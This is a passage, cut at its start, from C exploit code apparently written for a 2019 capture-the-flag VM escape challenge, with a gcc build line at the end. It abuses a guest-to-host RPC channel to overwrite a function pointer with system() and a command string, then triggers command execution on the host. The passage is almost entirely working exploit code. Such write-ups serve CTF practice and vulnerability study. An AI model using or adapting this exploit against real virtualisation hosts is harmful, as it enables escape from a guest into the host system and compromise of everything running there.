    channel_set_len(chan[3].cookie1, chan[3].cookie2, chan[3].num, 0x80, &res);

    /* chan[3]: overwrite target_fn & target_param */
    uint64_t payload[0x80/8] = { 0,};
    memcpy((char *)payload, param, strlen(param)+1);
    payload[3] = 0x4943505200000001;
    payload[4] = system_plt;
    payload[5] = param_buf;
    channel_send_data(chan[3].cookie1, chan[3].cookie2, chan[3].num, 8*6, (char *)payload, &res);

    printf("[+] execute %s\n", param);
    channel_open(&chan[4].cookie1, &chan[4].cookie2, &chan[4].num, &res);
}

int main(int argc, char *argv[]) {
    leak();
    exploit();

    return 0;
}
// gcc -static -o exp ./QWB2019-VMx.exp.c
```

